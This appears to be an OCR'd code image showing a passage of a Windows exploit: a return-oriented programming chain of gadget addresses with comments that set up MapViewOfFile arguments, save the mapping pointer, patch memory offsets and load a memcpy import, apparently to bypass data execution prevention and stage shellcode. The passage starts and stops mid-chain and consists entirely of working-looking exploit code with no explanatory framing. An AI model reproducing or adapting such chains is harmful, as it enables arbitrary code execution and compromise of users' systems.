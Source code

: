 				0x4a801064,   # ret
	 
				0xffffffff,   # args to MapViewOfFile - hFileMappingObject
				0x00000022,   # dwDesiredAccess
				0x00000000,   # dwFileOffsetHigh
				0x00000000,   # dwFileOffsetLow
				0x00010000,   # dwNumberOfBytesToMap
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a8a0004,   # becomes ecx - writable pointer
	 
				0x4a802196,   # mov [ecx],eax / ret - save map base addr
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx - ptr to ret
	 
				0x4a842db2,   # xchg eax,edi / ret
	 
				0x4a802ab1,   # pop ebx / ret
				0x00000030,   # becomes ebx - offset to modify
	 
				0x4a80a8a6,   # execute fun block
	 
				0x4a801f90,   # pop eax / ret
				0x4a8a0004,   # becomes eax - saved file mapping ptr
	 
				0x4a80a7d8,   # mov eax,[eax] / ret - load saved mapping ptr
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx - ptr to ret
	 
				0x4a842db2,   # xchg eax,edi / ret
	 
				0x4a802ab1,   # pop ebx / ret
				0x00000020,   # becomes ebx - offset to modify
	 
				0x4a80a8a6,   # execute fun block
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx - ptr to ret
	 
				0x4a80aedc,   # lea edx,[esp+0xc] / push edx / push eax / push [esp+0xc] / push [0x4a8a093c] / call ecx / add esp, 0x10 / ret
	 
				0x4a801f90,   # pop eax / ret
				0x00000034,   # becomes eax
	 
				0x4a80d585,   # add eax,edx / ret
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx - ptr to ret
	 
				0x4a842db2,   # xchg eax,edi / ret
	 
				0x4a802ab1,   # pop ebx / ret
				0x0000000a,   # becomes ebx - offset to modify
	 
				0x4a80a8a6,   # execute fun block
	 
				0x4a801f90,   # pop eax / ret
				0x4a849170,   # becomes eax (import for memcpy)
	 